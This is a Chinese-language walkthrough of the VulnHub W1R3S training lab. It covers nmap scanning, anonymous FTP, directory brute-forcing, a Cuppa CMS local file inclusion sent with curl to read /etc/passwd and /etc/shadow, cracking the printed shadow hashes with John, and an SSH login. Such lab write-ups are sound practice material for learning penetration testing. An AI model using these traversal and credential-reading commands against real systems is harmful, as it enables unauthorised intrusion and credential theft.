靶场下载地址：https://download.vulnhub.com/w1r3s/w1r3s.v1.0.1.zip

下载解压导入到虚拟机

**环境：Windows  VMware Kali**

**连接方式： NAT**


**评级：简单**

# 1. 信息收集

**信息收集要收集完全，宁愿多用点时间，否则后面打不动的时候还要再重新收集，这样太浪费时间。我们尽可能的按照流程第一次收集全。**

## 1.1 主机发现


```shell
#查看kali IP 地址
ip a
```


```shell
# 用来主机发现 用于对指定的IP地址范围内的主机进行主机存活检测，而不进行端口扫描。-sn参数表示“ping扫描”，它使用ICMP ECHO请求（ping）或者TCP SYN扫描（默认情况下，nmap会尝试使用ICMP ECHO请求，如果失败，则尝试使用TCP SYN扫描）来检测目标主机是否存活。
 nmap -sn 192.168.125.1/24
```

## 1.2 端口扫描


```shell
# -min-rate 10000：设置扫描速率的最小值为10000个包/秒。这个参数可以加快扫描速度，太快了扫描不准，太慢了浪费时间，综合考虑选择10000。
# -p-：扫描目标主机的所有端口，包括1到65535之间的所有端口。
# 192.168.1.1：指定要扫描的目标主机的IP地址。
nmap -min-rate 10000 -p- 192.168.125.138
```

由于是局域网环境没有WAF 不用考虑网络延迟的情况，扫描速度非常快。

**扫描结果：**

```shell
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-27 10:38 EDT
Nmap scan report for 192.168.125.138
Host is up (0.000062s latency).
Not shown: 55528 filtered tcp ports (no-response), 10003 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql
MAC Address: 00:0C:29:AA:7F:FC (VMware)

Nmap done: 1 IP address (1 host up) scanned in 14.66 seconds
```


## 1.3 服务扫描

### 1.3.1 TCP 扫描

```shell
nmap -sT -sV -O 192.168.125.138 -p 21,22,80,3306
```

- `-sT`：使用TCP连接扫描技术，即通过建立TCP连接来探测端口是否开放。
- `-sV`：对开放的端口进行版本检测，获取端口所运行的服务和版本信息。
- `-O`：使用操作系统检测技术，尝试猜测主机的操作系统类型和版本。
- `192.168.125.138`：指定要扫描的目标主机的IP地址。
- `-p 21,22,80,3306`：只扫描目标主机的21、22、80和3306端口。


**扫描结果：**

```shell
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-27 10:41 EDT
Stats: 0:00:00 elapsed; 0 hosts completed (0 up), 1 undergoing ARP Ping Scan
ARP Ping Scan Timing: About 100.00% done; ETC: 10:41 (0:00:00 remaining)
Nmap scan report for 192.168.125.138
Host is up (0.00040s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.0.8 or later
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
3306/tcp open  mysql   MySQL (unauthorized)
MAC Address: 00:0C:29:AA:7F:FC (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.10 - 4.11, Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: Host: W1R3S.inc; OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.36 seconds
```


### 1.3.2 使用UDP协议扫描： 

服务器有可能开放 UDP 端口，我们也不要放弃这一条路， 有可能是一个突破点。

```
nmap -sU  192.168.125.138 -p 21,22,80,3306
```

- -sU 采用 UDP 扫描方式 

扫描结果：

```shell
Starting Nmap 7.93 ( https://nmap.org ) at 2023-04-27 10:48 EDT
Nmap scan report for 192.168.125.138
Host is up (0.00024s latency).

PORT     STATE         SERVICE
21/udp   open|filtered ftp
22/udp   open|filtered ssh
80/udp   open|filtered http
3306/udp closed        mysql
MAC Address: 00:0C:29:AA:7F:FC (VMware)

Nmap done: 1 IP address (1 host up) scanned in 3.47 seconds
```

查看扫描结果， 基于 UDP 的扫描方式得到的结果基本是无效的。


## 1.4 NMAP 简单漏洞扫描

通过 nmap 自带的扫描脚本可以扫描一些常见的漏洞，由于脚本比较多，扫描速度非常慢。

```shell
nmap --script=vuln  -p 21,22,80,3306 192.168.125.138
```

以下是21、22、80和3306端口的攻击方向：

- 端口21: FTP服务端口，攻击方向包括FTP暴力破解、匿名登录。
- 端口22: SSH服务端口，攻击方向包括SSH暴力破解、SSH会话劫持、SSH密钥泄露等, 一般情况下 22 号端口的漏洞可以不用考虑，也不推荐上来就暴力破解。
- 端口80: HTTP服务端口，攻击方向包括Web应用程序漏洞、跨站脚本攻击（XSS）、SQL注入攻击、文件包含漏洞等。
- 端口3306: MySQL 数据库服务端口，攻击方向包括 MySQL 暴力破解、MySQL注入攻击、MySQL特权提升攻击等


**扫描结果：**

```shell

Nmap scan report for 192.168.125.138
Host is up (0.00068s latency).

PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum:
|_  /wordpress/wp-login.php: Wordpress login page.
| http-slowloris-check:
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-dombased-xss: Couldn't find any DOM based XSS.
3306/tcp open  mysql
MAC Address: 00:0C:29:AA:7F:FC (VMware)

Nmap done: 1 IP address (1 host up) scanned in 323.84 seconds
```


攻击向量优先级： 22 < 3306 < 21 < 80  ,   21 ftp 端口和 80端口相比比较简单，我们可以先从21号端口测试。

# 

## 1.5 FTP

尝试 FTP 匿名用户登录：

**用户名： anonymous** 

**密码： 空**

```
ftp 192.168.125.138
```


```shell
Connected to 192.168.125.138.
220 Welcome to W1R3S.inc FTP service.
Name (192.168.125.138:kali): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp>
```

可以看到  successful 说明登录成功。

```shell
#查看文件
ftp> ls
229 Entering Extended Passive Mode (|||43916|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 content
drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 docs
drwxr-xr-x    2 ftp      ftp          4096 Jan 28  2018 new-employees
```


```shell
# 通过mget 命令 下载所有的 txt文件
ftp> mget 0*.txt
mget 01.txt [anpqy?]?
229 Entering Extended Passive Mode (|||49210|)
150 Opening BINARY mode data connection for 01.txt (29 bytes).
100% |********************************************************************************************************************************************************************|    29        0.09 KiB/s    00:00 ETA
226 Transfer complete.
29 bytes received in 00:00 (0.08 KiB/s)
mget 02.txt [anpqy?]?
229 Entering Extended Passive Mode (|||49352|)
150 Opening BINARY mode data connection for 02.txt (165 bytes).
100% |********************************************************************************************************************************************************************|   165        1.65 KiB/s    00:00 ETA
226 Transfer complete.
165 bytes received in 00:00 (1.63 KiB/s)
mget 03.txt [anpqy?]?
229 Entering Extended Passive Mode (|||49235|)
150 Opening BINARY mode data connection for 03.txt (582 bytes).
100% |********************************************************************************************************************************************************************|   582      364.09 KiB/s    00:00 ETA
226 Transfer complete.
582 bytes received in 00:00 (286.90 KiB/s)
```

把几个目录翻一遍,能下载的都下载到本地,如果下载二进制文件要用  `binary` 命令后在下载 否则可能造成文件损坏不能执行：

```shell
ftp> cd docs
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||42936|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           138 Jan 23  2018 worktodo.txt
226 Directory send OK.
ftp> mget worktodo.txt
mget worktodo.txt [anpqy?]?
229 Entering Extended Passive Mode (|||42362|)
150 Opening BINARY mode data connection for worktodo.txt (138 bytes).
100% |********************************************************************************************************************************************************************|   138        1.43 KiB/s    00:00 ETA
226 Transfer complete.
138 bytes received in 00:00 (1.41 KiB/s)
ftp> cd ..
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||47596|)
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 content
drwxr-xr-x    2 ftp      ftp          4096 Jan 23  2018 docs
drwxr-xr-x    2 ftp      ftp          4096 Jan 28  2018 new-employees
226 Directory send OK.
ftp> cd new-employees
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||47213|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp           155 Jan 28  2018 employee-names.txt
226 Directory send OK.
ftp> mget employee-names.txt
mget employee-names.txt [anpqy?]?
229 Entering Extended Passive Mode (|||46761|)
150 Opening BINARY mode data connection for employee-names.txt (155 bytes).
100% |********************************************************************************************************************************************************************|   155      864.95 KiB/s    00:00 ETA
226 Transfer complete.
155 bytes received in 00:00 (177.24 KiB/s)
```


注意： FTP 不能上传文件，所以我们不能直接穿一个木马上去。


打开我们收集的信息：


01.txt

```
New FTP Server For W1R3S.inc
```

**分析**：这条信息可能没有用，先留着记在笔记里面。

02.txt

```
01ec2d8fc11c493b25029fb1f47f39ce
#
#

SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==
############################################
```

**分析1：** 

```shell
#hash-identifier是一款用于识别哈希类型的工具。它可以对输入的哈希值进行分析，并尝试确定它们的类型
hash-identifier 01ec2d8fc11c493b25029fb1f47f39ce
```

**结果：**很有可能是 MD5

```shell

   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

Possible Hashs:
[+] MD5
[+] Domain Cached Credentials - MD4(MD4(($pass)).(strtolower($username)))

Least Possible Hashs:
[+] RAdmin v2.x
[+] NTLM
[+] MD4
[+] MD2
[+] MD5(HMAC)
[+] MD4(HMAC)
```


**分析2：** 没有识别加密方式，经验多了,可以一眼看出是 base64 编码

```
 hash-identifier SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==
   #########################################################################
   #     __  __                     __           ______    _____           #
   #    /\ \/\ \                   /\ \         /\__  _\  /\  _ `\         #
   #    \ \ \_\ \     __      ____ \ \ \___     \/_/\ \/  \ \ \/\ \        #
   #     \ \  _  \  /'__`\   / ,__\ \ \  _ `\      \ \ \   \ \ \ \ \       #
   #      \ \ \ \ \/\ \_\ \_/\__, `\ \ \ \ \ \      \_\ \__ \ \ \_\ \      #
   #       \ \_\ \_\ \___ \_\/\____/  \ \_\ \_\     /\_____\ \ \____/      #
   #        \/_/\/_/\/__/\/_/\/___/    \/_/\/_/     \/_____/  \/___/  v1.2 #
   #                                                             By Zion3R #
   #                                                    www.Blackploit.com #
   #                                                   Root@Blackploit.com #
   #########################################################################
--------------------------------------------------

 Not Found.
--------------------------------------------------
 HASH:
```


用命令对base64解码：

```shell
echo "SXQgaXMgZWFzeSwgYnV0IG5vdCB0aGF0IGVhc3kuLg==" |base64 -d

It is easy, but not that easy.. 
```


MD5 破解：

https://crackstation.net/

https://www.somd5.com/

https://www.cmd5.com/




03.txt

```
___________.__              __      __  ______________________   _________    .__               
\__    ___/|  |__   ____   /  \    /  \/_   \______   \_____  \ /   _____/    |__| ____   ____  
  |    |   |  |  \_/ __ \  \   \/\/   / |   ||       _/ _(__  < \_____  \     |  |/    \_/ ___\ 
  |    |   |   Y  \  ___/   \        /  |   ||    |   \/       \/        \    |  |   |  \  \___ 
  |____|   |___|  /\___  >   \__/\  /   |___||____|_  /______  /_______  / /\ |__|___|  /\___  >
                \/     \/         \/                \/       \/        \/  \/         \/     \/ 

```

**分析：**无价值信息

employee-names.txt

```
The W1R3S.inc employee list

Naomi.W - Manager
Hector.A - IT Dept
Joseph.G - Web Design
Albert.O - Web Design
Gina.L - Inventory
Rico.D - Human Resources
```

**分析：**用户名，很有用处。


worktodo.txt

```
	ı pou,ʇ ʇɥıuʞ ʇɥıs ıs ʇɥǝ ʍɐʎ ʇo ɹooʇ¡

....punoɹɐ ƃuıʎɐןd doʇs ‘op oʇ ʞɹoʍ ɟo ʇoן ɐ ǝʌɐɥ ǝʍ
```

**分析：**是一个倒过来的英文


还原数据：

1.截图用ps制图工具反转

2.在线工具https://www.upsidedowntext.com/


## 1.6 80端口

浏览器访问：




apache 服务的默认页面，这个页面基本上没有可以漏洞利用的地方。


### 1.6.1 目录爆破：

如果没有字典选择安装字典

```
apt install seclists
```

使用 gobuster 目录爆破

```
gobuster dir -u http://192.168.125.138 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
```

```shell

└─# gobuster dir -u http://192.168.125.138 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.125.138
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Timeout:                 10s
===============================================================
2023/04/27 12:34:23 Starting gobuster in directory enumeration mode
===============================================================
/wordpress            (Status: 301) [Size: 322] [--> http://192.168.125.138/wordpress/]
/javascript           (Status: 301) [Size: 323] [--> http://192.168.125.138/javascript/]
/administrator        (Status: 301) [Size: 326] [--> http://192.168.125.138/administrator/]
/server-status        (Status: 403) [Size: 280]
Progress: 218805 / 220561 (99.20%)
===============================================================
2023/04/27 12:34:46 Finished
===============================================================
```


浏览器访问：

- http://192.168.125.138/wordpress/  自动跳转到 localhost
- http://192.168.125.138/javascript  403 无权限访问 打不开页面
- http://192.168.125.138/administrator 是一个安装界面

CMS是 Cupper CMS





这个信息对我们非常重要，这个页面是安装界面，如果可能我们可以用来二次安装修改用户密码或者数据库密码。

设置数据库名：test 

设置密码：123456


设置管理员的邮箱：1@1.com

设置管理员密码：123456 或者使用默认


下一步会提示安装失败，有一个文件 叫做 `Configuration.php`  也许有用。




# 2. 漏洞发现

似乎到这里没有路了

上面我们知道了CMS的名字，可以 Google 搜 历史漏洞也可以 kali 本地搜看看，优先级先从简单的来，在kali本地搜索。

**搜索：**

```
searchsploit cuppa
```




查看25971文件的内容：

如果找不到文件名字，可以使用 `locate 25971.txt` 查找



使用 文档给出的方法测试：

**浏览器访问：**

```
http://192.168.125.138/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
```

如果一个测试不成功可以多试几次




## 2.1 文件包含漏洞利用

使用 curl 来利用 LFI 漏洞来获取 etc/password 文件

```shell
curl -s --data-urlencode urlConfig=../../../../../../../../../etc/passwd http://192.168.125.138/administrator/alerts/alertConfigField.php
```

- `-s`：使用静默模式，不输出任何进度或错误信息。
- `--data-urlencode`：将数据作为 URL 编码的形式发送。
- `urlConfig=../../../../../../../../../etc/passwd`：要发送的数据，它是一个 URL 配置字符串，其中 `../../../../../../../../../etc/passwd` 代表了要访问的文件路径。
- `http://192.168.1.106/administrator/alerts/alertConfigField.php`：目标 URL，表示要将数据发送到这个 URL。

因此，这个命令的目的是将 `../../../../../../../../../etc/passwd` 这个文件路径作为 URL 参数 `urlConfig` 的值，发送到目标 URL `http://192.168.1.106/administrator/alerts/alertConfigField.php`。





获取密码：

```shell
curl -s --data-urlencode urlConfig=../../../../../../../../../etc/shadow http://192.168.125.138/administrator/alerts/alertConfigField.php
```




```
www-data:$6$8JMxE7l0$yQ16jM..ZsFxpoGue8/0LBUnTas23zaOqg2Da47vmykGTANfutzM8MuFidtb0..Zk.TUKDoDAVRCoXiZAH.Ud1:17560:0:99999:7:::
w1r3s:$6$xe/eyoTx$gttdIYrxrstpJP97hWqttvc5cGzDNyMb0vSuppux4f2CcBv3FwOt2P1GFLjZdNqjwRuP3eUjkgb/io7x9q1iP.:17567:0:99999:7:::
```

把密码存为 hash.txt

## 2.2 破解密码

便用 John the ripper 破解它

```
john hash.txt
```




明文密码为：www-data  和 computer

## 2.3 SSH 登录靶机

```shell
ssh w1r3s@192.168.125.138
```

